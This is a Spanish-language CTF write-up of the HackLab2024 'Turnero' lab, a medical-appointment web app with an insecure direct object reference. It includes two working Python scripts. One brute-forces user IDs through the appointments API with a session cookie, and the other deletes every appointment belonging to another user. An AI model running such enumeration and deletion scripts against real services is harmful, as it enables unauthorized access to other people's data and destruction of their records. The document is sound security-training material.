 # M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)

> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

| Integrante        | Facultad                                        |
| :---------------- | :---------------------------------------------- |
| Agustín M. Blanco | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |
| Tomás N. Raspa    | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |

## Índice

1. [Turnero](#Turnero)
	1. [Primera aproximación](#Primera_aproximación)
	2. [Observando en profundidad](#Observando_en_profundidad)
	3. [El ataque](#El_ataque)

---
## Turnero

>Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario `xdalvik` ha reservado demasiados turnos de manera intencionada para incomodar a los demás.
>¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?
>Usuario: `luis`
>Clave: `Luis.4321`


### Primera aproximación

Al ingresar al sistema, tal y como nos fue anticipado por el enunciado, nos encontramos con una pantalla de inicio de sesión para lo que parecería ser un turnero:

![Pantalla LogIn](images/turnero/login.png)

Al ingresar con las credenciales de Luis que nos fueron provistas, obtenemos un panel con su listado de turnos:
![Lista de turnos de Luis](images/turnero/turnosLuis.png)

Jugando un poco con el sistema vemos que a priori lo único que parecería permitir es cerrar la sesión o cancelar un turno. Veamos ahora cómo está interactuando realmente nuestro navegador con el sistema...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al cargar la página con estas herramientas observamos que realmente se está construyendo en dos pasos. Primero se obtiene la estructura, y luego se obtienen los turnos a través de una API
![Requests en DevTools para Mis Turnos](images/turnero/peticionesMisTurnos.png)

Al observar con mayor detenimiento la segunda petición vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a  `api/1/appointments/` que devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información sobre los turnos:
```json
[
    {
        "clinic": "Cl\u00ednica del Sol",
        "date": "2024-10-22T21:41:25.683923",
        "id": 1,
        "specialist": "Dr. Alvarez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b02",
        "date": "2024-10-25T04:41:25.684032",
        "id": 2,
        "specialist": "Dra. Gonzales",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Cl\u00ednica privada",
        "date": "2024-10-22T22:41:25.684079",
        "id": 3,
        "specialist": "Lic. Lopez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Punilla",
        "date": "2024-10-23T22:41:25.684119",
        "id": 4,
        "specialist": "Dr. Lange",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b0 14",
        "date": "2024-10-25T02:41:25.684158",
        "id": 5,
        "specialist": "Dra. Farias",
        "user": "luis",
        "user_id": 1
    }
]
```

Si miramos la información contenida en la respuesta, todos los turnos devueltos pertenecen al `user_id` 1, y, coincidentemente, la petición que habíamos hecho, la palabra `appointments` estaba precedida por un 1. Esto nos lleva hacer la siguiente suposición:
>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API probablemente sea `/api/:user_id/appointments/`, siendo `:user_id` el `id` del usuario que del que se desea obtener la lista de turnos 

Ahora prestemos atención al comportamiento del sistema cuando se desea cancelar un turno.
Al presionar `Cancelar` recibimos un [prompt](https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt) consultando si estamos seguros.
![](images/turnero/alertCancelacionTurno.png)

Al aceptar, vemos que la página se recarga y, si miramos nuevamente las herramientas de desarrollador, vemos que se ejecutaron dos peticiones
![](images/turnero/peticionesCancelarTurno.png)

La segunda petición es identica a todas las anteriores, obtiene el listado de turnos del usuario. Sin embargo, la primera es diferente. Se trata de un [DELETE](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/DELETE) al endpoint `/api/appointments/2` cuya respuesta fue el siguiente JSON: 
```json
{"message":"Turno eliminado correctamente"}
```

Observando el formato de la request, si lo extrapolamos con los datos que conocíamos de la respuesta al endpoint `/api/:user_id/appointments/` podemos sacar la siguiente conclusión:

>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API para cancelar turnos es `/api/appointments/:id_turno`, siendo `:id_turno` el `id` del turno que se desea cancelar

Teniendo toda esta información, veamos ahora cómo podemos hacer para cancelarle los turnos a `xdalvik` :)

### El ataque

Nuestro objetivo es cancelarle los turnos a `xdalvik` sin afectar a los demás usuarios. Sin embargo, para poder cancelar un turno, primero necesitamos su `id` *de usuario*. Para lograr esto, con la información obtenida anteriormente y un poco de pensamiento lateral, llegamos a la siguiente estrategia. Podemos utilizar el endpoint `/api/:id_usuario/appointments/` y un poco de fuerza bruta para encontrar el `id` del usuario correspondiente a `xdalvik`.

```python
from concurrent.futures import ThreadPoolExecutor
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"


def probarId(id):
    res = requests.get(f"{URL_BASE}/api/{id}/appointments", cookies={'session':COOKIE_SESION})
    datos = res.json()

    if datos != []:
        print(f"[X] Usuario encontrado! Usuario: [{datos[0]['user']}]. Id: [{datos[0]['user_id']}]")

if __name__ == '__main__':
    lista = [x for x in range(0,500)]
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(probarId, lista)
```

>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

 Al ejecutar el script obtenemos el siguiente resultado:
 ```
[X] Usuario encontrado! Usuario: [luis]. Id: [1]
[X] Usuario encontrado! Usuario: [analia]. Id: [49]
[X] Usuario encontrado! Usuario: [xdalvik]. Id: [101]
```

Genial! Encontramos el `id` de `xdalvik`! Ahora solo nos falta eliminar sus turnos. Para ello, aprovechando el otro endpoint que habíamos descubierto, podemos armar otro script que elimine todos sus turnos.

```python
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"

def obtenerTurnos(idUsuario):
    res = requests.get(f"{URL_BASE}/api/{idUsuario}/appointments/", cookies={'session':COOKIE_SESION})
	return res.json()

def eliminarTurno(id):
    requests.delete(f"{URL_BASE}/api/appointments/{id}/", cookies={'session':COOKIE_SESION})

if __name__ == '__main__':
    turnosXdalvik = obtenerTurnos(101)
    for turno in turnosXdalvik:
        eliminarTurno(turno["id"])
```
>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

Luego de ejecutar este último script, si recargamos la página en el navegador veremos que hemos obtenido la flag!

![](images/turnero/flag.png)

>Flag: `d27fa3f8fc14ea101603d09436e28bf6`
